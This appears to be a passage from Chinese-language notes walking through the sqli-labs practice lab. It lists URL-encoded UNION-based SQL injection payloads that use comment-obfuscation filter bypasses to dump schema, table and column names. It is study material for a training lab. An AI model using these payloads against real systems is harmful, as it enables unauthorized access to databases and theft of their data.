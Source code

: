 

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union/*/!*!**/select%201,2,group_concat(schema_name)from/*!--+/*%0ainformation_schema.schemata*/--+
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608180406635.png" alt="image-20230608180406635" style="zoom:50%;" />

#### 爆表

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union/*/!*!**/select%201,2,group_concat(table_name)from/*!--+/*%0ainformation_schema.tables where table_schema=database()*/--+
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608180519244.png" alt="image-20230608180519244" style="zoom:50%;" />

#### 爆字段

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union/*/!*!**/select%201,2,group_concat(column_name)from/*!--+/*%0ainformation_schema.columns where table_schema=database() and table_name='users'*/--+
```
